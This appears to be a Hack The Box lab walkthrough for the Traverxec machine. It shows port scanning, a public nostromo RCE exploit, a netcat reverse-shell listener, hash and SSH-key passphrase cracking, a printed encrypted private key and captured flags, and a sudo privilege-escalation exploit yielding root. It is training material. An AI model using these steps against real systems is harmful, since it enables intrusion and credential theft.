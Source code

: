 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [Password Cracking, PrivEsc, Public Exploit]
image:
  path: /Vulnhub-Files/img/Traverxec/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/217
---
```


### Lets see the IP address →

```bash
IP : 10.10.10.165
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.10.165
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-07-21 12:26 IST
Nmap scan report for 10.10.10.165
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled.png)

Lets search an exploit related to `nostromo 1.9.6`  →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ searchsploit nostromo 1.9.6]
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path]
------------------------------------------------ ---------------------------------
nostromo 1.9.6 - Remote Code Execution          | multiple/remote/47837.py]
------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Lets try it out now →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ python2 cve2019-16278.py 10.10.10.165 80 whoami

                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/

HTTP/1.1 200 OK
Date: Fri, 21 Jul 2023 07:09:46 GMT
Server: nostromo 1.9.6
Connection: close

www-data
```

Now lets try reverse shell command execution from it →

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.213] from (UNKNOWN) [10.10.10.165] 51210
whoami
www-data
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@traverxec:/usr/bin$
```

Found something interesting →

```bash
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
www-data@traverxec:/var/nostromo/conf$
```

Now with the help of hashcat I decoded the password of david →

```bash
hashes.txt = $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

commands : hashcat -m 500 hashes.txt /usr/share/wordlists/rockyou.txt
```

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%202.png)

```bash
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

But each time I use this password it says invalid →

```bash
www-data@traverxec:/home$ su david
Password: 
su: Authentication failure
www-data@traverxec:/home$
```

Lets find something else →

Now while checking the `nostromo/conf/nhttpd.conf` →

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%203.png)

so since I am not allowed to enter into david so lets list file inside of david user using `public_www` →

```bash
www-data@traverxec:/home/david$ ls -al public_www/
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
www-data@traverxec:/home/david$ ls -al public_www/protected-file-area/
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
www-data@traverxec:/home/david$
```

Now lets see inside the `backup-ssh-identity-files.tgz` file →

```bash
www-data@traverxec:/home/david$ tar -tvf public_www/protected-file-area/backup-ss
sh-identity-files.tgz
drwx------ david/david       0 2019-10-25 17:02 home/david/.ssh/
-rw-r--r-- david/david     397 2019-10-25 17:02 home/david/.ssh/authorized_keys
-rw------- david/david    1766 2019-10-25 17:02 home/david/.ssh/id_rsa
-rw-r--r-- david/david     397 2019-10-25 17:02 home/david/.ssh/id_rsa.pub
www-data@traverxec:/home/david$
```

Now if I can extract data so extract at /tmp/Data location so for that I used this command →

```bash
tar zxvf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz -C /tmp/Data
```

```bash
www-data@traverxec:/tmp/Data$ find .
.
./home
./home/david
./home/david/.ssh
./home/david/.ssh/authorized_keys
./home/david/.ssh/id_rsa
./home/david/.ssh/id_rsa.pub
www-data@traverxec:/tmp/Data$
```

Lets see the `id_rsa` file here →

```bash
www-data@traverxec:/tmp/Data/home/david/.ssh$ cat id_rsa]
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w]
-----END RSA PRIVATE KEY-----
www-data@traverxec:/tmp/Data/home/david/.ssh$
```

Lets see the paraphrase of `id_rsa` from cracking it through `john the ripper` →

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%204.png)

Lets try the SSH login now with password and private key too →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ ssh david@traverxec.htb -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ ls -al
total 36
drwx--x--x 5 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 root  root  4096 Oct 25  2019 ..
lrwxrwxrwx 1 root  root     9 Oct 25  2019 .bash_history -> /dev/null
-rw-r--r-- 1 david david  220 Oct 25  2019 .bash_logout
-rw-r--r-- 1 david david 3526 Oct 25  2019 .bashrc
drwx------ 2 david david 4096 Oct 25  2019 bin
-rw-r--r-- 1 david david  807 Oct 25  2019 .profile
drwxr-xr-x 3 david david 4096 Oct 25  2019 public_www
drwx------ 2 david david 4096 Oct 25  2019 .ssh
-r--r----- 1 root  david   33 Jul 21 00:14 user.txt
david@traverxec:~$ cat user.txt
44321fe1b9364d36aee2333a9ccb0715
david@traverxec:~$
```

Now I find the version of sudo outdated so I tried this exploit directly and I got what I wanted →
[exploit_nss.py File](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) 

```bash
www-data@traverxec:/$ sudo -V
Sudo version 1.8.27
Sudoers policy plugin version 1.8.27
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.27
www-data@traverxec:/$
```

```bash
david@traverxec:/tmp$ python exploit.py
# /bin/bash -i
root@traverxec:/tmp# whoami
root
root@traverxec:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(david)
root@traverxec:/tmp# cd /root
root@traverxec:/root# ls -al
total 64
drwx------  3 root root  4096 Nov 12  2019 .
drwxr-xr-x 18 root root  4096 Sep 16  2022 ..
lrwxrwxrwx  1 root root     9 Oct 25  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root  4096 Nov 12  2019 .local
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root 37520 Oct 25  2019 nostromo_1.9.6-1.deb
-r--------  1 root root    33 Jul 21 00:14 root.txt
root@traverxec:/root# cat root.txt
f0310cddcfa7d2fa7927fead112c5bf3
root@traverxec:/root#
```